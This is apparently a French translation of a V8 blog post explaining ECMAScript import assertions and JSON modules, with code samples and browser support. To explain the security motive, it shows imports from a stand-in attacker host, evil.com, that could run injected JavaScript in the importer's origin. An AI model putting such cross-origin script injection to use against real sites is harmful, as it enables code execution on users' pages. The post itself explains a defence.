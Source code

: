 ```yaml
---
title: "Assertions d'importation"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importateur assertif d'assertions d'importation"
avatars: 
  - "dan-clark"
date: 2021-06-15
tags: 
  - ECMAScript
description: "Les assertions d'importation permettent aux instructions d'importation de module d'inclure des informations supplémentaires en plus du spécificateur de module"
tweet: ""
---
```


La nouvelle fonctionnalité [assertions d'importation](https://github.com/tc39/proposal-import-assertions) permet aux instructions d'importation de module d'inclure des informations supplémentaires en plus du spécificateur de module. Une utilisation initiale de cette fonctionnalité est de permettre l'importation de documents JSON sous forme de [modules JSON](https://github.com/tc39/proposal-json-modules) :

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Contexte : Modules JSON et type MIME

Une question naturelle à poser est pourquoi un module JSON ne pourrait pas simplement être importé comme suit :

```javascript
import json from './foo.json';
```

La plateforme web vérifie le type MIME d'une ressource de module pour sa validité avant de l'exécuter, et en théorie ce type MIME pourrait également être utilisé pour déterminer s'il faut traiter la ressource comme un module JSON ou JavaScript.

Cependant, il existe un [problème de sécurité](https://github.com/w3c/webcomponents/issues/839) en se basant uniquement sur le type MIME.

Les modules peuvent être importés de manière inter-origin, et un développeur pourrait importer un module JSON d'une source tierce. Il pourrait considérer cela comme fondamentalement sûr même venant d'une source non fiable tant que le JSON est correctement désinfecté, puisque l'importation de JSON n'exécutera pas de script.

Cependant, un script tiers peut en réalité être exécuté dans ce scénario car le serveur tiers pourrait répondre de manière inattendue avec un type MIME JavaScript et une charge utile JavaScript malveillante, exécutant du code dans le domaine de l'importateur.

```javascript
// Exécute JS si evil.com répond avec un
// type MIME JavaScript (par exemple `text/javascript`) !
import data from 'https://evil.com/data.json';
```

Les extensions de fichier ne peuvent pas être utilisées pour déterminer le type de module car elles [ne sont pas un indicateur fiable du type de contenu sur le web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Nous utilisons donc des assertions d'importation pour indiquer le type de module attendu et prévenir ce piège d'escalade de privilèges.

Lorsqu'un développeur souhaite importer un module JSON, il doit utiliser une assertion d'importation pour spécifier qu'il s'agit de JSON. L'importation échouera si le type MIME reçu du réseau ne correspond pas au type attendu :

```javascript
// Échoue si evil.com répond avec un type MIME non-JSON.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## `import()` dynamique

Les assertions d'importation peuvent également être passées à [`import()` dynamique](https://v8.dev/features/dynamic-import#dynamic) avec un nouveau deuxième paramètre :

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Le contenu JSON est l'exportation par défaut du module, il est donc référencé via la propriété `default` sur l'objet retourné par `import()`.

## Conclusion

Actuellement, la seule utilisation spécifiée des assertions d'importation est pour la spécification du type de module. Cependant, la fonctionnalité a été conçue pour permettre des paires clé/valeur d'assertions arbitraires, de sorte que des utilisations supplémentaires pourraient être ajoutées à l'avenir si cela devient utile pour restreindre les importations de modules d'autres manières.

En attendant, les modules JSON avec la nouvelle syntaxe d'assertions d'importation sont disponibles par défaut dans Chromium 91. [Les scripts de modules CSS](https://chromestatus.com/feature/5948572598009856) arrivent bientôt également, utilisant la même syntaxe d'assertion de type de module.

## Prise en charge des assertions d'importation

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="non"
                 safari="non"
                 nodejs="non"
                 babel="oui https://github.com/babel/babel/pull/12139"></feature-support>
